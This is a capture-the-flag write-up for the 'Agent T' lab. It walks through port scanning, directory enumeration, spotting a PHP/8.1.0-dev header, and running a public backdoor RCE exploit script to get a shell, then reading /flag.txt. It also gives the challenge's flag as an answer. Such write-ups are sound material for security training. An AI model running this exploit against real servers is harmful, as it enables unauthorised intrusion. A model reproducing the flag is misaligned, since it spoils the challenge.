 # Agent T

Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds.

---

## Nmap

```bash
nmap -sV -p- -T4 <IP> -vv
```

```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

Only one port is open, so let’s enumerate it with dirsearch.

---

## Dirsearch

```bash
dirsearch -u http://agent.thm -e * -t 50
```

```
200 -  /.travis.yml
200 -  /404.html
200 -  /gulpfile.js
200 -  /package.json
200 -  /package-lock.json
```

<img width="1857" height="980" alt="Screenshot From 2025-09-04 19-18-49" src="https://github.com/user-attachments/assets/bb260b5b-9d20-4a68-9932-1cdc53a3fe88" />

---

## Web Enumeration

Viewing the source code gave nothing. Heading to **Pages**, we got a 404 page with a link saying:

```
Not Found
The requested resource /index.html was not found on this server.
```

Nothing obvious stood out, so I checked the headers with `curl -I`:

```bash
curl -I http://agent.thm
```

```
HTTP/1.1 200 OK
Host: agent.thm
Date: Fri, 05 Sep 2025 00:08:15 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8
```

The server runs **PHP/8.1.0-dev**, which has a known RCE backdoor exploit.

---

## Exploit

Exploit link:
[https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

I ran it directly:

```bash
python3 exploit.py
Enter the host url:
http://agent.thm
```

```
Interactive shell is opened on http://agent.thm 
Can't acces tty; job crontol turned off.
$ pwd
/var/www/html
```

I could not change folders cleanly, but I listed files:

```
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

---

## Finding the Flag

To locate the flag, I ran:

```bash
find / -type f -name "*.txt" 2>/dev/null
```

Among the output, the key entry was:

```
/flag.txt
```

Reading it:

```bash
cat /flag.txt
```

```
flag{4127d0530abf16d6d23973e3df8dbecb}
```

---

## Flag

> Q1: Flag
> A1: flag{4127d0530abf16d6d23973e3df8dbecb}
